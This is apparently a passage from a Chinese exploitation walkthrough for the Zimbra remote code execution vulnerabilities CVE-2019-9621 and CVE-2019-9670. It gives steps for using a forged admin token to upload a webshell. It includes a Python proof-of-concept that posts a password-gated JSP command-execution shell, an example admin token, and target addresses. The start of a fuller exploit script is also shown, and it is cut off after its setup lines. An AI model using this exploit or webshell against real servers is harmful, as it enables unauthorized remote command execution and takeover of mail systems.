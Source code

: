 Cookie中设置`Key为ZM_ADMIN_AUTH_TOKEN`，值为上面请求所获取的token，将`xmlns="urn:zimbraAccount"`修改为`xmlns="urn:zimbraAdmin"`，在Host字段末尾添加":7071"，URL中的target要使用https协议。然后发送请求即可获得admin权限的token。

### 第五步：利用高权限token传文件getshell

![](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId33.png)

将上一步获取的admin权限token添加到cookie中，然后上传webshell。

Webshell路径为/downloads/k4x6p.jsp，访问该webshell时需要在cookie中添加admin\_toke。

你可以利用此webshell在其他无需cookie即可访问的目录里创建一个可用菜刀连接的小马。

![](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId34.png)

**简易poc**

    import requests

    file= {
    'filename1':(None,"whocare",None),
    'clientFile':("sunian.jsp",r'<%if("023".equals(request.getParameter("pwd"))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>',"text/plain"), 
    'requestId':(None,"12",None),
    }
    headers ={ 
    "Cookie":"ZM_ADMIN_AUTH_TOKEN=0_eb68a2a147c98c6d0c2257d7638c4f1256493b28_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313539323733343831303035313b61646d696e3d313a313b747970653d363a7a696d6272613b7469643d393a3433323433373532323b",#改成自己的admin_token
    "Host":"foo:7071"
    }
    r=requests.post("https://192.168.37.137:7071/service/extension/clientUploader/upload",files=file,headers=headers,verify=False)    
    print(r.text)

![2.png](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId35.png)

> 虽然执行报错了，但是不影响> shell地址：https://www.0-sec.org:7071/downloads/sunian.jsp

![3.png](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId36.png)

### 完整版exp

![4.png](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId38.png)

    #coding=utf8
    import requests
    import sys
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    base_url=sys.argv[1]
    base_url=base_url.rstrip("/")
    #利用request模块来发包和接受数据，sys模块用来传参，并删除最右侧的/斜杠
